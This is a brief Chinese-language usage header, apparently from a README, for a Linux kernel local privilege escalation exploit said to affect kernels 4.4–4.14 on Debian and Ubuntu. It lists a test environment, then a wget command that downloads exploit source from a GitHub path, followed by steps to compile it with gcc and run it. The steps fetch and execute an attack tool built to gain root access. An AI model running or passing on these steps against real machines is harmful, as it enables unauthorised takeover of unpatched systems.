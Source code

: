 # Linux Kernel Version 4.14-4.4(影响Debian和Ubuntu发行版)
# 测试环境 ubuntu 16.06 64 4.4.0-116-generic
# 下载地址 wget https://github.com/havysec/privilege_escalation_script/linux/ubuntu16.04/upstream44.c
# 编译 gcc -o exp upstream44.c
# 运行 ./exp
